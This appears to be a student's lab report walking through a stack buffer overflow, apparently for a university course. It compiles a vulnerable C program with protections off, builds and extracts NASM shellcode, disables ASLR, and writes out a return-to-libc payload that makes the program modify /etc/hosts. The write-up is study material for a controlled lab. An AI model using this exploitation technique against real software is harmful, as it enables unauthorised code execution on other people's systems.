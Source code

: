 # Lab #1,21110058, CAO KHẢI MINH, INSE330380E_02FIE

# Task 1: **Software buffer overflow attack**
**Question 1**: Compile asm program and C program to executable code. 

\- Conduct the attack so that when C executable code runs, shellcode will be triggered and a new entry is  added to the /etc/hosts file on your linux. 

 You are free to choose Code Injection or Environment Variable approach to do. 

\- Write step-by-step explanation and clearly comment on instructions and screenshots that you have made to successfully accomplished the attack.

## **I. Set up the C program:**

### 1. Create a C file named `vuln.c`:
```sh
nano vuln.c
```
![image-20241104091628712](C:\Users\Admin\AppData\Roaming\Typora\typora-user-images\image-20241104091628712.png)<br>

After which use `crtl` +` o` to save ad `crtl`+`x` to exit.

### 3. Compile the newly written C file with `gcc`:

```sh
gcc vuln.c -o vuln.out -fno-stack-protector -mpreferred-stack-boundary=2
```

</br>

## **II. Set up the NASM program:**

### 1. Create a NASM file named `lab1.nasm`:

```sh
nano attackCode.nasm
```

<img width="500" alt="Screenshot" src="https://github.com/CKMPeter/Information-Sec/blob/main/SecLab/attackCode.png?raw=true"><br>

After which use `crtl` +` o` to save ad `crtl`+`x` to exit.

### 2. **Compile and Link the newly written NASM file**:

#### a. Compile the file:

```sh
nasm -f elf32 -o lab1.o lab1.nasm
```

**`-f elf32`**: This flag specifies the output format. In this case, it's generating a 32-bit **ELF**

**`-o attackCode.o`**: This specifies the output file's name. The resulting object file will be named `attackCode.o`

</br>

#### b. Link the file to an executable:

```sh
ld -m elf_i386 -o lab1 lab1.o
```

</br>

#### c. Generate the `shellcode` from the executable:

```sh
objdump -d lab1 | grep '[0-9a-f]:' | grep -oP '\s\K[0-9a-f]+' | tr -d '\n' | sed 's/\(..\)/\\x\1/g'
```

**`objdump -d attackCode`**:

- Disassembles the binary file (`attackCode`) and shows its assembly instructions along with their corresponding machine code (opcode).

**`grep '[0-9a-f]:'`**:

- Filters out the lines from `objdump` output that contain opcodes (which are hexadecimal values) by looking for lines that have a hexadecimal number followed by a colon (`:`). These are typically the lines with the memory addresses and opcodes.

**`grep -oP '\s\K[0-9a-f]+'`**:

- This command extracts the hexadecimal opcodes from the filtered lines using a regular expression.

- ```sh
  \s\K[0-9a-f]+
  ```

  `\s`: Looks for a space before the opcodes.

  `\K`: Ignores everything before the opcodes (the memory addresses).

  `[0-9a-f]+`: Matches one or more hexadecimal characters (i.e., the machine code).

**`sed 's/\(..\)/\\x\1/g'`**:

- Uses `sed` (stream editor) to format the opcodes as shellcode by adding `\x` before each byte.
- `s/\(..\)/\\x\1/g`: Matches every two hexadecimal characters (which make up a byte) and adds `\x` before them.

</br>

#### d. Total summary of process:

![image-20241104092251134](C:\Users\Admin\AppData\Roaming\Typora\typora-user-images\image-20241104092251134.png)

after running the `objdump` command you will get the shellcode to inject into the vuln program.

</br>

## III. EXECUTE THE ATTACK:

### 1. turn off ASLR (Address Space Layout Randomization):

![image-20241104092449640](C:\Users\Admin\AppData\Roaming\Typora\typora-user-images\image-20241104092449640.png)

### 2. create an environment variable in Linux with the path of file lab1.asm:

![image-20241104092724884](C:\Users\Admin\AppData\Roaming\Typora\typora-user-images\image-20241104092724884.png)

### 3. use gdb:

![image-20241104093358327](C:\Users\Admin\AppData\Roaming\Typora\typora-user-images\image-20241104093358327.png)

0xf7e50db0: Address of libc_system
0xf7e449e0: Address of exit to avoid crashing
0xffffd939: Address of env variable

### 4. Attack File:

```sh
r $(python -c "print(20*'a' + '\xb0\x0d\xe5\xf7' + '\xe0\x49\xe4\xf7' + '\x39\xd9\xff\xff')")
```

![image-20241104095520665](C:\Users\Admin\AppData\Roaming\Typora\typora-user-images\image-20241104095520665.png)

after doing, so you would use

```
sudo cat /etc/hosts 
```

to see the newly added host.
